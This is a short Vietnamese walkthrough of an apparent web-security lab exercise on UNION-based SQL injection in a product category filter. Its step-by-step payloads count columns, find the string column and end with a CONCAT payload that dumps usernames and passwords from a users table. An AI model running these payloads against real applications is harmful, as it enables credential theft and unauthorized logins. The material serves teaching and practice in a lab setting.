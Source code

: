 # Đầu bài cho biết:
- Ứng dụng có lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm.
- Kết quả truy vấn được trả về trong phản hồi của ứng dụng, cho phép sử dụng tấn công UNION.
- Cơ sở dữ liệu có một bảng khác tên là users, với các cột username và password.
# Yêu cầu:
- Thực hiện tấn công SQL injection UNION để truy xuất tất cả tên người dùng và mật khẩu từ bảng users.
- Sử dụng thông tin này để đăng nhập với tư cách người dùng administrator.


- Kiểm tra số lượng cột để gắn bằng `UNION`

`' UNION SELECT NULL, NULL FROM users--`

- Kiểm tra kiểu định dạng của các cột
- Thì chỉ có cột thứ 2 là cho định dạng dạng **String**

`' UNION SELECT NULL, 'a' FROM users--`

- Kiểm tra sự xuất hiện của username và password ở cột 2

`' UNION SELECT NULL, username FROM users--`

`' UNION SELECT NULL, password FROM users--`

- Vì chỉ có 1 cột có khả năng xem được ở dạng **String** nên ta ghép cả 2 lại thành cùng 1 cột và cách nhau bởi dấu ":" bằng hàm CONCAT() - 1 hàm dùng để nối 2 hay nhiều chuỗi với nhau
> SOLVE: `' UNION SELECT NULL, CONCAT(username, ':', password) FROM users--`
